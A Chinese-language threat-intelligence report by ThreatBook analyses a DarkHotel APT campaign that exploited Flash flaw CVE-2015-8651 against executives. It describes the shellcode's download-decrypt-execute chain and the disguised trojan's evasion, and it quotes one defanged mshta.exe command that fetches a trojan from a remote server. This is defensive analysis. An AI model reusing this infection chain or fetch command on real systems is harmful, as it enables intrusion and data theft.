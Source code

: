 # 境外“暗黑客栈”组织对国内企业高管发起APT攻击

> 当你启程前往伊萨卡，但愿你的道路漫长，充满奇迹，充满发现——卡瓦菲斯 希腊  
> 以此纪念2015，即将逝去的中国威胁情报元年。

**Author:ThreatBook**

0x00 摘要
=====

Adobe于12月28日发布了一个应急补丁用于修复Flash 播放器的多个安全漏洞。有线索表明其中之一已被用于APT(高级可持续性)攻击，国外有媒体揣测其攻击目标为国内某著名IT企业（[http://www.theregister.co.uk/2015/12/28/adobe_flash_security_update/](http://www.theregister.co.uk/2015/12/28/adobe_flash_security_update/)），微步在线尚未发现任何证据支持此结论。但溯源分析表明确有境外黑客团伙利用此漏洞针对中国及亚洲企业的高管发起APT攻击，此团伙即代号为暗黑客栈（DarkHotel） 的APT攻击组织。现阶段尚不确定此攻击是否有更复杂的背景。微步在线已第一时间向客户发送预警。

我们建议企业高管们立即采取以下措施：

1.  立即升级Flash播放器；
2.  不要点击陌生邮件的附件或链接；
3.  连接酒店WIFI请慎重，收发敏感信息可用移动通信网络。

![p1](http://drops.javaweb.org/uploads/images/32ed02bdb74576b4a5fe8c185bc8a9c8a0331e87.jpg)

0x01 威胁事件分析
=====

在Adobe于12月28日发布的19个安全漏洞的应急（OOB）补丁中，CVE-2015-8651 被Adobe 标注为已用于APT攻击。微步在线通过对多宗活跃APT威胁事件的跟踪及对CVE-2015-8651攻击的分析，确定了攻击流及攻击者身份。

通过对捕获的可疑SWF文件进行分析，确认此样本利用了Adobe Flash整数溢出漏洞 (即此次Adobe修复的CVE-2015-8651漏洞)。受攻击者访问此SWF文件后，漏洞利用成功会跳转到下面这段shellcode:

![p2](http://drops.javaweb.org/uploads/images/da792b1d6e4d4d564d0bccdc06b0cacb0067f642.jpg)

其主要功能是下载一个名为update.exe 的文件到系统`的%temp%`目录下， 通过RC4解密并且通过ECHO加可执行文件的“MZ”头来构建有效的PE文件，然后运行。

![p3](http://drops.javaweb.org/uploads/images/f7963cdfb6a7748b3c22ed6757a033778446240f.jpg)

Update.exe约1.3Mb, 具有完整的文件属性，伪装成SSH密钥生成工具：

![p4](http://drops.javaweb.org/uploads/images/672a2b5e07b085096775c305bf19ce1a2be0e347.jpg)

通过逆向分析发现，木马作者篡改和裁剪了正常的OpenSSL文件，篡改后的版本只提供一个参数：`-genkeypair`。无论是否传递此参数，木马文件都会首先释放一个公钥在当前目录用于干扰判断，同时进入真正的恶意代码部分。此样本未进行代码混淆，但是采用了多种反调试/反虚拟机技术及字段加密，通过检测各种系统环境来判断是否有反病毒软件及沙箱存在，比如：

![p5](http://drops.javaweb.org/uploads/images/1c169c9c54bcacf62a6d1c2abba362debe68f7d0.jpg)

Update.exe是一个Trojan Downloader， 利用执行mshta.exe 来下载木马文件，木马文件服务器位于冰岛。形式如下：

`C:\Windows\system32\mshta.exe hxxp://****.com/image/read.php…..`

0x02 攻击团伙分析
=====

随着对此攻击事件的目标、工具、手法和过程更详细的分析，我们发现其特点和暗黑客栈（Darkhotel）有着非常惊人的一致。

暗黑客栈（Darkhotel）APT攻击团伙的踪迹最早可以追溯到2007年，其从2010年开始更多的利用企业高管在商业旅行中访问酒店网络的时机，进行APT攻击来窃取信息。因此在2014年卡巴斯基发布针对此团队的研究报告时，将其命名为“Darkhotel”。此团伙攻击目标集中在亚太地区开展业务和投资的企业高管（如：CEO、SVP、高管及高级研发人员），攻击的行业包括大型电子制造和通信、投资、国防工业、汽车等。

此团队使用零日漏洞（特别是Flash类型）来进行攻击，并规避最新的防御措施，同时也会盗窃合法的数字证书为后门软件及监听工具进行签名。如果有一个目标已经被有效感染，往往就会从作案点删除他们的工具，进而隐藏自己的活动踪迹。从其行动特点看，具有极高的技术能力及充沛的资源。

我们对此次事件和暗黑客栈（Darkhotel）的特点进行了对比，认为有充足理由认定其就是始作俑者。

![p6](http://drops.javaweb.org/uploads/images/83dbb3eb20ce0459234cebd5fde8e7e23218918e.jpg)

0x03 小结
=====

通过此事件，我们再次认识到在万物互联的年代，单纯基于漏洞的防御往往是防不胜防。只要有足够的价值，黑客就有足够的投入和机会攻陷目标。我们需要及时的调整防御思路，平衡安全投入，更多的聚焦威胁，以威胁情报驱动安全体系建设，建立防御、检测、响应及预防一套完整的安全自适应过程。